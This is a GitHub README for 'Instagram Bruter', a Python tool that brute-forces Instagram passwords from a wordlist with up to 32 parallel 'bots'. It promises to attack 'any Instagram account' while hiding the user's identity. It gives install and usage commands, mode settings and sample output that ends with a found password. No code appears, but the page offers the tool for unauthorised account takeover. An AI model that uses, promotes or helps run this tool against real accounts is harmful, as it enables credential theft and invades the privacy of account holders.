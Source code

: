 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.1-blue)]()
[![Python](https://img.shields.io/badge/Python-v3.6%2B-blue)]()

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

I'm no longer maintaining this project.

### Requirements

-   Python _v3.x.x_

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\SKAR\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\SKAR\Desktop\Instagram>python3 instagram.py Skar09.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\SKAR\Desktop\Instagram>python3 instagram.py Skar09.1 pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\SKAR\Desktop\Instagram>python3 instagram.py Skar09.1 pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\SKAR\Desktop\Instagram>python3 instagram.py Skar09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Skar09.1
[-] Password: 254
[-] Complete: 45.51%
[-] Attempts: 216
[-] Browsers: 261
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Skar09.1
[-] Password: beliveme
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Skar09.1
[+] Password: skarhack
```
